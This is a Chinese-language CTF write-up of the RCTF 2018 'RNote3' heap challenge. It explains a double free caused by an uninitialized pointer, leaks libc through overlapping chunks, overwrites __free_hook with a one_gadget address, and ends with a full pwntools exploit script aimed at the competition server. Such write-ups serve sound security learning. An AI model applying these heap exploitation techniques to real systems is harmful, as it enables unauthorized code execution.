 # RNote3
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下我学习的**NBUSEC**队伍的[原wp](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/RNote3/rnote3_exploit.py)，我在这里解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题二进制程序保护全开，只有一个libc可以改写GOT，同样通过覆盖libc中的地址来getshell，跟babyheap一样，得到oneshot的地址**0x4526a**和__free_hook的地址**0x3c67a8**。接下来开始分析这个二进制程序：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>整个程序看上去无懈可击，但有一个隐秘的错误，就是一个函数中的ptr指针未初始化，连续调用这个函数的时候，由于ptr的垃圾数据还是上一次的，又可以继续free上次的note，也就是可以任意次数delete同一个note，再加上edit note的函数里的可以写入title的大小过大，最终导致被攻破：</font></br>

```C
__int64 del_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  void *ptr; // [sp+8h] [bp-18h]@0
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  printf("please input note title: ");
  get_input((__int64)&title, 8u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      ptr = (void *)link[i];
      break;
    }
  }
  if ( ptr )
  {
    free(*((void **)ptr + 2));
    free(ptr);
    link[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}


__int64 edit_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  __int64 the_chunk; // [sp+8h] [bp-18h]@1
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  the_chunk = 0LL;
  printf("please input note title: ");
  get_input((__int64)&title, 0x20u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      the_chunk = link[i];
      break;
    }
  }
  if ( the_chunk )
  {
    printf("please input new content: ");
    get_input(*(_QWORD *)(the_chunk + 16), *(_QWORD *)(the_chunk + 8));
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么接下来我们先泄露libc地址，如果不明白内存管理可以先看[这篇](https://paper.seebug.org/255/)，我们首先分配一个fastbin大小的堆块然后对其连续free两次，接下来分配的两个堆块（一个smallbin，如果是fastbin不会有fd泄露）就会**重叠在同一个地址**上，当对其中的一个smallbin进行free了之后，再view一下另一个堆块就可以查看到被free堆块的fd指针，从而泄露出libc基地址，偏移可以通过调试得到。</font></br>

```python
def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来就是use-after-free利用了，不太了解的可以看一下[这篇文章](https://blog.csdn.net/qq_31481187/article/details/73612451)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>use-after-free通常用来修改一些敏感数据或者地址指针，我们在这里修改堆块地址，将堆块地址修改到libc中的__free_hook处，然后就可以把这个的地址修改为oneshot的地址然后getshell了：</font></br>

```python
delete_note('d' * 8)
#返回了原先'd'*8 title的第一个堆块和smallbin的一个堆块，这个时候出现了偏差。
add_note('e' * 8, 256, 'e' * 256)
#这里申请'f'*8的title的时候返回了上一个'd'堆块的content块，然后申请'f'堆块的content的堆块时
#malloc返回了上一个'c'堆块的title块，这时候从content写入数据的时候相当于从title开始写入，
#可以修改title，size，和其content堆块的地址，在这里把content堆块的地址到libc的__free_hook处。
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终脚本如下：</font></br>

Exploit脚本:
=======

```python
from pwn import *

oneshot=0x4526A
freehook=0x3c67a8

DEBUG = 1

if DEBUG == 1:
  p=process('./RNote3')
  context(log_level='debug')
  gdb.attach(p)
else:
  p=remote('rnote3.2018.teamrois.cn',7322)

def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))

delete_note('d' * 8)
add_note('e' * 8, 256, 'e' * 256)
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```

